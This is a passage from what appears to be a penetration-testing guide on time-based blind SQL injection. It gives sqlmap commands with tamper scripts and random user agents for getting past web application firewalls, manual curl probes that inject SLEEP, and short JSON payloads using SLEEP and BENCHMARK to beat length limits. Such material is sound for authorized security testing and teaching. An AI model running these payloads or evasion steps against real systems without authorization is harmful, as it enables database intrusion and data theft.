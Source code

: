 **2. WAF Blocking Time-based:**
```bash
# Problem: WAF detects SLEEP() function
# Solution: Heavy obfuscation
sqlmap -u "URL" \
  --technique=T \
  --tamper=between,charencode,randomcase,space2comment \
  --random-agent \
  --delay=5

# Alternative: Use different time functions
# MySQL: SLEEP(), BENCHMARK()
# PostgreSQL: pg_sleep()  
# SQL Server: WAITFOR DELAY
```

**3. Timeout Issues:**
```bash
# Problem: Requests timing out before delay completes
# Solution: Increase timeout beyond time-sec
sqlmap -u "URL" \
  --technique=T \
  --time-sec=5 \
  --timeout=20 \       # Always > time-sec
  --retries=3
```

**4. No Time-based Detection:**
```bash
# Problem: Time-based not detected
# Solutions:
1. Increase aggressiveness:
   sqlmap -u "URL" --risk=3 --level=5 --technique=T

2. Try different parameters:
   sqlmap -u "URL" --technique=T -p specific_param

3. Manual confirmation:
   # Test if parameter is injectable
   curl -d "id=1 AND SLEEP(5)" URL  # Should delay
   curl -d "id=1 AND SLEEP(0)" URL  # Should not delay
```

#### Advanced Time-based Scenarios

**Bypassing Length Restrictions:**
```sql
-- When payload length is limited
{"id":"1'+(SLEEP(5))+'"}           # Short MySQL payload
{"id":"1';SELECT(SLEEP(5))--+"}    # Alternative syntax

-- Using shorter functions  
{"id":"1'+(1=BENCHMARK(50000000,MD5(1)))+'"}  # MySQL BENCHMARK (shorter than SLEEP)
```
